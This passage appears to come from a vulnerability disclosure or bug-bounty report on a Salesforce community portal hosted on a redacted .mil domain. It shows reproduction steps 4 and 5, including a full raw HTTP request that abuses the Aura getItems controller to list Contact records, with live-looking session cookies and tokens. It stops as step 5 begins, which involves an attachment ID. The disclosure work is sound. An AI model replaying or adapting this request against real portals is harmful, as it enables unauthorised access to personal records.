 4. Send the request to Repeater, modify as below and send. This will pull some info from your own Contact record. Save the Contact Id (003Rw000002SJcsIAG in my case)

```
POST /Portal█████/s/sfsites/aura?r=1&ui-comm-runtime-components-aura-components-siteforce-controller.PubliclyCacheableAttributeLoader.getComponentAttributes=1 HTTP/2
Host: █████.mil
Cookie: renderCtx=%7B%22pageId%22%3A%22fec421fb-ebfc-431f-978d-a365adcfcb5c%22%2C%22schema%22%3A%22Published%22%2C%22viewType%22%3A%22Published%22%2C%22brandingSetId%22%3A%223c2a3bc4-0bc0-4c5c-8f55-7ae185109706%22%2C%22audienceIds%22%3A%226Au83000000003R%2C6Au83000000003M%22%7D; CookieConsentPolicy=0:1; LSKey-c$CookieConsentPolicy=0:1; BrowserId=oMjkwsU6Ee-I00kJsX5jcA; pctrk=206f938e-92be-4123-812c-7636ca87745f; oinfo=c3RhdHVzPUFDVElWRSZ0eXBlPTImb2lkPTAwRHQwMDAwMDAwUE16bg==; autocomplete=1; oid=00Dt0000000PMzn; sid=00Dt0000000PMzn!AQEAQOLKvWlH87RxyW9N_gumGxPew3nc7awAoLfDbhliBEaC6HRUyzcfI0buw465cwES7za7d6WuFGxuivxJhqW4_4bM5PjI; sid_Client=w000000E5Sr0000000PMzn; clientSrc=81.97.122.40; inst=APP_Rw; __Secure-has-sid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://█████.mil/Portal█████████/s/
X-Sfdc-Page-Scope-Id: cb3e874d-dd6f-4459-8016-91cb97c034bb
X-Sfdc-Request-Id: 1650000000ce00391b
X-Sfdc-Page-Cache: 05da72b5c160b86c
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-B3-Traceid: bb38cda3039f713b
X-B3-Spanid: 2e48fc5f161b8aa4
X-B3-Sampled: 0
Content-Length: 1115
Origin: https://██████.mil
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

message={"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"Contact","layoutType":"FULL","pageSize":2000,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22eUNJbjV5czdoejBvRlA5OHpDU1dPd1pMVExBQkpJSlVFU29Ba3lmcUNLWlE5LjMyMC4y%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%221184_AgcTXn_6dZSShHXZ2PZsug%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Atrue%7D&aura.pageURI=%2FPortal██████████%2Fs%2F&aura.token=eyJub25jZSI6Ilh5VUlXTVhkNmlMLVVVSGE4UHgtNVpYcXNHTExpcHh1VHpsdGY0ZUxMX0lcdTAwM2QiLCJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IntcInRcIjpcIjAwRFJ3MDAwMDAwMDAwMVwiLFwidlwiOlwiMDJHUncwMDAwMDAwMDNGXCIsXCJhXCI6XCJjYWltYW5zaWduZXJcIn0iLCJjcml0IjpbImlhdCJdLCJpYXQiOjE3MzczOTAwMTE5MTEsImV4cCI6MH0%3D..WK5LFyXjvujGvkxNWDVZyUQQsRhVRCcTD_hkWdulEWA%3D
```

█████████

5. Modify the request again as below, setting the value of parentId as as your Contact Id extracted in previous step and attachmentId as 00PRw000000MaT3MAK:
